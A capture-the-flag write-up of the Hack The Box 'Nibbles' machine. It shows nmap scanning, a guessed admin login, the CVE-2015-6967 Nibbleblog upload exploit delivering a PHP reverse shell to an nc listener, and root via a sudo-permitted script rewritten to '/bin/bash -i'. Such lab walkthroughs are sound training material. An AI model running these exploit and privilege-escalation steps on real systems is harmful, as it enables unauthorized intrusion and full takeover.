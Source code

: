 # Nibbles

Machine Level: Easy <br />
OS: Linux

## Scanning 
I ran an aggressive NMAP scan and found some initial services and ports. 
```
ajread@aj-ubuntu:~$ nmap -A [TARGET IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-24 18:58 EST
Nmap scan report for [TARGET IP]
Host is up (0.015s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.98 seconds
```
## Enumeration 
I looked at the service on port 80 and found that it was a nibble blog. 
```
ajread@aj-ubuntu:~$ curl http://[TARGET IP]
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
After doing some research, I found that there is a CVE-2015-6967 that allows for unrestricted file uploads within one of plugins in Nibbleblog before a certain version (4.0.5) that can allow for RCE. I was able to find a login page at ```http://[TARGET IP]/nibbleblog/admin.php```. I guessed the password with username:[REDACTED] and password:[REDACTED]. 
## Initial Access
I found a proof of concept for the RCE [here](https://github.com/dix0nym/CVE-2015-6967). I created a payload from pentest monkeys php reverse shell [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). I started a listener on my local machine and ran the exploit. 
```
ajread@aj-ubuntu:~/hackthebox/CVE-2015-6967$ python3 exploit.py --url http://[TARGET IP]/nibbleblog/ --username [REDACTED] --pass [REDACTED] --payload php-reverse-shell.php 
[+] Login Successful.
[+] Upload likely successfull.
```
And I was dropped into a shell and was able to read the user flag.
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [TARGET IP] 46040
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 19:21:08 up 14:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id 
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ whoami
nibbler
$ wc -c /home/nibbler/user.txt
wc -c /home/nibbler/user.txt
33 /home/nibbler/user.txt
```
## Privilege Escalation 
I checked for what I could run as sudo on the machine. 
```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
I had to unzip the ```/personal``` folder. 
```
$ ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Jan 24 04:56 user.txt
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```
I wanted to rewrite the ```monitor.sh``` file with something to run as root. To do so, I wrote a ```monitor.sh``` with only the below in it. 
```
/bin/bash -i
```
I transfered the new ```monitor.sh``` file to the target machine and executed as sudo to gain a root shell to read the flag. 
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
bash: cannot set terminal process group (1339): Inappropriate ioctl for device
bash: no job control in this shell
root@Nibbles:/home/nibbler/personal/stuff# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler/personal/stuff# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
